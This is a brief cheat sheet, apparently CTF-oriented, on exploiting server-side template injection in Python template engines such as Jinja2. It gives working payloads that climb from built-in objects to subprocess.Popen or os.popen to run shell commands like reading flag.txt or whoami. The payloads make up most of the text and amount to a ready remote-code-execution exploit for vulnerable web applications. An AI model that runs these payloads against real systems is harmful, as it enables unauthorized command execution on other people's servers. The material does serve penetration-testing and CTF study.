 # SSTI

In the exploitation of an SSTI vulnerability, our goal is to recover access to the regular python execution flow by abusing objects that are non sandboxed.

1. Accessing <class 'object'>

Objects that are always accessible from the sandboxed env:

```
[]
''
()
dict
config
request

# example payload
{{ [].__class__.__base__ }} # <class 'object'>
```

2. Finding subclasses to abuse
```
{{ [].__class__.__base__.__subclasses__() }} # [<class 'type'>, <class 'weakref'>,..., <class 'subprocess.Popen'>,...]
```

The subprocess.Popen class allows us to run os commands and is of interest.
```
python3 extract_subclass_num.py subclasses subprocess
413:  <class 'subprocess.CompletedProcess'>
414:  <class 'subprocess.Popen'>
```
3. RCE
```
{{ [].__class__.__base__.__subclasses__()[414]('cat flag.txt',shell=True,stdout=-1).communicate() # returns (stdout, stderr) }}
```
if we cannot run code through subclasses, we can try and access functions' builtins in order to import os:
```
{{ config.__class__.__dict__ }}, {{ request.__class__.__dict__ }} # will return a dictionary of classes, methods and functions
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os") }} # returns <module 'os' from '/usr/lib/python3.10/os.py'>
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("whoami").read() }}
```

